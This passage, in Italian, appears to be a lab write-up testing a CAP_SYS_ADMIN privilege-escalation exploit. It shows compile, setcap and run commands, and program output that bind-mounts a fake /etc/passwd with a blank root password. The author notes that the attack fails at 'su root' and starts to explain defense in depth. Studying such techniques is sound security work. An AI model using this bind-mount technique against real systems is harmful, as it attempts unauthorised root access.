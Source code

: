 #### Test dell'Exploit

```bash
# Compilazione
gcc -o /tmp/passwd_hijack /tmp/passwd_hijack.c

# Assegnazione capability
sudo setcap cap_sys_admin+ep /tmp/passwd_hijack

# Esecuzione
/tmp/passwd_hijack
```

#### Output dell'Exploit

```
=== EXPLOIT COMPLETO CAP_SYS_ADMIN ===
Utente corrente: UID 1000 (non root!)

1. Creazione /etc/passwd falso...
Contenuto passwd falso:
root::0:0:root:/root:/bin/bash

2. /etc/passwd originale (prima riga):
root:x:0:0:root:/root:/bin/bash

3. Esecuzione bind mount attack...
✅ SUCCESSO: /etc/passwd sostituito!

4. Nuovo contenuto /etc/passwd:
root::0:0:root:/root:/bin/bash

🎯 ACCESSO ROOT TEORICAMENTE OTTENUTO!
Teoricamente possibile: su root (nessuna password)
```

#### Test Finale - Verifica Accesso Root

```bash
# Tentativo accesso root
su root
# Password: (premere solo Invio)
# su: Authentication failure
```

**Risultato**: L'exploit FALLISCE nonostante la sostituzione file riuscita!

### Scoperta Cruciale: Defense in Depth

#### Analisi del Fallimento

**Perché l'exploit fallisce?**

I sistemi Linux moderni implementano **multiple linee di difesa**:
